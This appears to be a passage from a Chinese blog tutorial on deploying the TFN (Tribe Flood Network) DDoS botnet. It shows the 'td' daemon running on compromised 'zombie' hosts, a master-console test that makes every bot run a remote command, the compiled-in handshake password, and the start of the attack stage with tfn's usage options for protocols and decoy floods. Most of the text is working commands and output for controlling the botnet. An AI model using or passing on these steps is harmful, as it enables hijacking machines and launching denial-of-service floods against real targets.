 >[td@some ]# ./td

>[td@some ]# ps -ef

>UID        PID  PPID  C STIME TTY          TIME CMD

>root     24923 24894  1 05:14 pts/1    00:00:00 su

>root     24924 24923  6 05:14 pts/1    00:00:00 bash

>root     24943     1  0 05:14 pts/1    00:00:00 tfn-daemon

>root     24944 24924  0 05:14 pts/1    00:00:00 ps –ef



## 在主控host也要起肉鸡程序td (即主控端自身也是肉鸡)

>telnet 10.4.3.145

>连通性测试

>在所有肉鸡（包括主控端）td都启动后

>在主控端做基本的控制测试

>`# /root/tfn -f host_tfn -c 10 -i "mkdir testaa"`

>Protocol      : random

>Source IP     : random

>Client input  : list

>Command       : execute remote command

>Password verification:  输入00008421 (此为主控端与各肉鸡的握手密码，是编译时生成的)

>Sending out packets: ...

>#


##在各个肉鸡下都会自动建立一个目录testaa,通常建立在td文件存在的目录下

>`# ls`

>`host_tfn  td   tfn  tastaa`

>这证明主控和肉鸡通信正常


#正式开始攻击

##在主控端执行tfn


># /root/tfn

> usage: /root/tfn <options>

> [-P protocol]   Protocol for server communication. Can be ICMP, UDP or TCP.

> Uses a random protocol as default

> [-D n]          Send out n bogus requests for each real one to decoy targets


[1]: http://blog.sina.com.cn/s/blog_6151984a0100exma.html